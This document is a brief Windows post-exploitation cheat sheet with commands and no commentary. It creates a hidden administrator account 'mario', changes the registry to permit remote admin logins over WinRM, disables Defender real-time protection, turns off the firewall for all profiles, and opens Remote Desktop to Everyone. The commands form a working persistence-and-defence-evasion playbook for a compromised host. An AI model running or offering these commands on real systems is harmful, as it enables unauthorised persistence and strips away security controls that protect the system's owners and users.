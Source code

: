 ### Windows Post Explotaton
Crear Usuario
```
net user mario mario123 /add
net localgroup administrators mario /add
```
enable winrm
```
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```
Disable AV 
```
Set-MpPreference -DisableRealtimeMonitoring $true
netsh advfirewall set allprofiles state off
net localgroup "Remote Desktop Users" Everyone /Add 
```

